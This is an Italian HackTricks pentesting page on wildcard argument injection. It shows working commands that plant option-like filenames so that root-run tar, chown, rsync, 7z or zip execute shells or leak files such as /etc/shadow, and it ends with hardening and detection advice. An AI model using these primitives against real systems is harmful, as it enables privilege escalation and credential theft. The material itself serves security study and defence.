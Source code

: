 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> L'iniezione di **argomenti wildcard** (noto anche come *glob*) si verifica quando uno script privilegiato esegue un binario Unix come `tar`, `chown`, `rsync`, `zip`, `7z`, … con un wildcard non quotato come `*`.
> Poiché la shell espande il wildcard **prima** di eseguire il binario, un attaccante che può creare file nella directory di lavoro può creare nomi di file che iniziano con `-` in modo che vengano interpretati come **opzioni invece di dati**, permettendo di contrabbandare flag arbitrari o persino comandi.
> Questa pagina raccoglie le primitive più utili, le ricerche recenti e le rilevazioni moderne per il 2023-2025.

## chown / chmod

Puoi **copiare il proprietario/gruppo o i bit di autorizzazione di un file arbitrario** abusando del flag `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Quando root esegue successivamente qualcosa come:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` viene iniettato, causando che *tutti* i file corrispondenti ereditino la proprietà/permissi di `/root/secret``file`.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (attacco combinato).
Vedi anche il classico documento di DefenseCode per dettagli.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Esegui comandi arbitrari abusando della funzionalità **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Una volta che root esegue ad esempio `tar -czf /root/backup.tgz *`, `shell.sh` viene eseguito come root.

### bsdtar / macOS 14+

Il `tar` predefinito su macOS recenti (basato su `libarchive`) *non* implementa `--checkpoint`, ma puoi comunque ottenere l'esecuzione di codice con il flag **--use-compress-program** che ti consente di specificare un compressore esterno.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Quando uno script con privilegi esegue `tar -cf backup.tar *`, verrà avviato `/bin/sh`.

---

## rsync

`rsync` ti consente di sovrascrivere la shell remota o persino il binario remoto tramite flag da riga di comando che iniziano con `-e` o `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Se l'utente root archivia successivamente la directory con `rsync -az * backup:/srv/`, il flag iniettato genera la tua shell sul lato remoto.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Anche quando lo script privilegiato *difensivamente* antepone il carattere jolly con `--` (per fermare l'analisi delle opzioni), il formato 7-Zip supporta **file di elenco file** anteponendo il nome del file con `@`. Combinando ciò con un symlink ti consente di *esfiltrare file arbitrari*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Se root esegue qualcosa come:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip tenterà di leggere `root.txt` (→ `/etc/shadow`) come un elenco di file e uscirà, **stampando il contenuto su stderr**.

---

## zip

`zip` supporta il flag `--unzip-command` che viene passato *verbatim* alla shell di sistema quando l'archivio verrà testato:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Injecta il flag tramite un nome file creato ad arte e attendi che lo script di backup privilegiato chiami `zip -T` (test archive) sul file risultante.

---

## Binaries aggiuntivi vulnerabili all'iniezione di wildcard (lista rapida 2023-2025)

I seguenti comandi sono stati abusati in CTF moderni e in ambienti reali. Il payload è sempre creato come un *nome file* all'interno di una directory scrivibile che sarà successivamente elaborata con un wildcard:

| Binary | Flag da abusare | Effetto |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrario `@file` | Leggi il contenuto del file |
| `flock` | `-c <cmd>` | Esegui il comando |
| `git`   | `-c core.sshCommand=<cmd>` | Esecuzione del comando tramite git su SSH |
| `scp`   | `-S <cmd>` | Avvia un programma arbitrario invece di ssh |

Queste primitive sono meno comuni rispetto ai classici *tar/rsync/zip* ma vale la pena controllarle durante la ricerca.

---

## Rilevamento e Indurimento

1. **Disabilita il globbing della shell** negli script critici: `set -f` (`set -o noglob`) previene l'espansione dei wildcard.
2. **Cita o scappa** gli argomenti: `tar -czf "$dst" -- *` non è sicuro — preferisci `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Percorsi espliciti**: Usa `/var/www/html/*.log` invece di `*` in modo che gli attaccanti non possano creare file fratelli che iniziano con `-`.
4. **Minimo privilegio**: Esegui lavori di backup/manutenzione come un account di servizio non privilegiato invece di root quando possibile.
5. **Monitoraggio**: La regola predefinita di Elastic *Potential Shell via Wildcard Injection* cerca `tar --checkpoint=*`, `rsync -e*`, o `zip --unzip-command` immediatamente seguito da un processo figlio della shell. La query EQL può essere adattata per altri EDR.

---

## Riferimenti

* Elastic Security – Regola rilevata Potenziale Shell tramite Iniezione di Wildcard (ultimo aggiornamento 2025)
* Rutger Flohil – “macOS — Iniezione di wildcard in Tar” (18 Dic 2024)

{{#include ../../banners/hacktricks-training.md}}
